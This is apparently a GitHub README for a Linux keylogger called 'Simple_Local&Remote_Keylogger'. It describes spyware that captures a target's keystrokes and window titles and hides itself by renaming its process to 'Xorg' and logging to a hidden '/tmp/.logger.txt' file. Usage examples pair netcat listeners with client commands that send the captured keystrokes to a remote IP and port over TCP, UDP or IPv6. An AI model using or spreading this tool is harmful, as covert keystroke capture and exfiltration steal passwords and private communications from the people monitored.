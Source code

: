 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	* Simple keylogger that runs on Linux either locally or remotely.
	* It shows the active window on which the target is writing.
	* Keys are mapped on US keyboard.
	* It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	* Process name is renamed as "Xorg".
	* It works with both TCP and UDP and with ipv6 too.
	* It must be run as root.
```
Usage: #./slrk [OPTIONS]
```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	[TCP]
	
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[UDP]
	
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[IPv6]
	
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	
